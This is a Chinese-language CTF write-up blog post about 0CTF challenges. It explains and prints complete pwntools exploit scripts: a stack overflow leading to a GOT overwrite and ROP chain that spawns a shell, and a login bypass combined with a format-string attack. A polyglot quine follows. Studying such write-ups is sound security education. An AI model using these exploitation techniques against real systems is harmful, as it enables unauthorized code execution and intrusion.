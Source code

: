 ```yaml
---
title: 0CTF writeup
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
  - misc
---
```


周末参加了今年的第二次CTF，0CTF。与BCTF类似，这次的溢出、逆向题目也是非常有水平的，令人大开眼界。下面是我的部分的writeup。

## flaggenerator

这道题的溢出还是比较明显的。在leetify时，一个`h`字符会被变成`1-1`三个字符，从而长度变长，造成栈溢出。但这道题有stack canary保护，如果我们栈溢出修改了返回地址，就会触发`__stack_chk_fail`。而读了一遍伪代码之后并没有发现可以泄露canary的地方，于是肯定会触发调用`__stack_chk_fail`了。

但是，在leetify的最后一步是`strcpy`，而目标`dest`是从栈上取的，源`src`是我们提供的flag（虽然有些字符被leetify了）。`dest`是我们可以覆盖到的，于是，如果我们把`strcpy`的目标地址改为GOT，造成修改`__stack_chk_fail@got`，那么就可以调用我们提供的函数了。

在调用`__stack_chk_fail@got`时，栈顶还是之前`strcpy`的参数。我用的是`leave; ret`，这样把`ebp`设为我们覆盖的一个地址，再跳回leetify的返回地址，那里也是被我们所覆盖的，进而ROP下去。pwntools里好像有写ROP的功能，我不太熟，还是手工构造的。具体地，先`put`打印GOT，获得库函数地址；然后调用程序里一个类似`readline`的函数，将`system`和字符串`/bin/sh`读到固定位置；最后`leave; ret`，执行`system("bin/sh")`。下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    elf = ELF('flagen')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 5149)

    #len=9
    newGOT = [0x080484e6, 0x080484f6, 0x08048506, 0x08048516, 0x08048526, 0xf7e24570, 0x08048546, 0x08048556, 0x08048566]
    leave = 0x080485d8 
    newGOT[0] = leave #leave; ret
    newEbp = 0x0804b610
    newDest = 0x0804b01c #__stack_chk_fail@got
    popRet = 0x08048481 #pop ebx; ret
    newRet = popRet
    puts = 0x08048510 #puts@plt
    read = 0x0804b00c #read@got
    readLine = 0x080486cb
    count = 0x01010101
    sh = newEbp + 4*4 
    bsh = 0xf7f6a3a8

    #0x10c=4*9+77*3+1
    payload1 = "1\n" + "".join([p32(x) for x in newGOT]) + "h"*77 + "a" + p32(newEbp) + p32(popRet) + p32(newDest) + p32(puts) + p32(popRet) + p32(read) + p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
    #total: 4*9+77+1+4*10=154

    conn.recvuntil("Your choice: ")
    conn.send(payload1)

    conn.recvuntil("Your choice: ")
    a1 = conn.recvn(4) 
    readAddr = unpack(a1)
    print(hex(readAddr))

    #system = 0xf7e46d70
    system = readAddr - 0x9aa40
    payload2 = p32(newEbp) + p32(system) + p32(popRet) + p32(sh) + "/bin//sh\n"
    conn.send(payload2)

    conn.interactive()
{% endhighlight %}

## login

这道题是PIE的，所以我调试下断点遇到了一点麻烦。最后我的方法是：在库函数`MD5`下断点，运行到那里后，`finish`回到原程序里，然后一步步走下去。

很明显，我们需要调用读flag文件的那个函数，为此我们需要成为normal user。再新login用户时的`scanf`有问题，这里它用的是`%256s`，这样如果输入256个字符，就会读256个，并添加一个`\x00`在最后。这样，就可以修改那里，成为normal user了。

然后，在隐藏的选项4里，存在format string attack，而且一共有两次。于是我们可以在第一次得到内存地址，然后第二次修改来跳到读flag的函数那里。具体地，通过大量打印内存，我们发现`printf`的第3个参数是栈上的某处，由此可以得到返回地址在栈上的地址；第75个参数是返回地址，由此我们可以得到`.text`的基地址，进而得到读flag的函数的地址。然后，在第二次`printf`时，我们修改返回地址为读flag，就可以在`printf`结束后获得flag了。

下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 10910)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%3$p,%75$p\n1234\n"

    conn.send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')
    print addrs

    stack = int(addrs[0], 16) 
    base = int(addrs[1], 16)-0x12d3
    retAddr1 = stack - 0x8 
    retAddr2 = retAddr1+1
    print hex(retAddr1)
    print hex(base)

    high = (base & 0xff00) >> 8
    print hex(high)

    newHigh = high + 0x11
    part1 = "%8x%11$hhn"
    count = newHigh -8
    print "count 2 is %d" % count

    if count > 13 and count < 100:
        part2 = "aaa%%%dx%%12$hhn" % (count-3)
    elif count > 102:
        part2 = "aa%%%dx%%12$hhn" % (count-2)

    print len(part1)+len(part2)
    print part1+part2

    payload = part1+part2+p64(retAddr1)+p64(retAddr2) + "\n1234\n"

    conn.send(payload)
    conn.interactive()
{% endhighlight %}

## polyglot quine
其实两道题都是考察的它，只不过第一题只要求5种语言里的3种通过即可，第二题则要求5种语言全部通过。第一题我是直接搜索在[http://shinh.skr.jp/obf/](http://shinh.skr.jp/obf/)得到的，它已经满足c, python2, ruby和perl了。但python3还不满足，为此我研究了一下这段代码。

实验发现，python3之所以不满足，是因为python里的`print`会附加一个换行符在最后。为了解决这个问题，代码里用的是`print a%b,`，即在`print`之后添加一个逗号使得不打印换行符。但这只对python2有效，python3就不行了。

经过一番思考，我发现可以通过`rstrip()`去掉结尾的换行符，然后再`print`添加一个换行符，这样就做到了只有一个换行符了，而且这样对python2和python3都可以。下面就是我修改后可以通过5种语言的代码:

{% raw %}
<pre>
 #include/*
s='''*/<stdio.h>
main(){char*_;/*==;sub _:lvalue{$_}<<s;#';<<s#'''
def printf(a,*b):print((a%b).rstrip())
s
#*/
_=" #include/*%cs='''*/<stdio.h>%cmain(){char*_;/*==;sub _:lvalue{%c_}<<s;#';<<s#'''%cdef printf(a,*b):print((a%%b).rstrip())%cs%c#*/%c_=%c%s%c;printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);%c#/*%cs='''*/%c}//'''#==%c";printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);
#/*
s='''*/
}//'''#==
</pre>
{% endraw %}
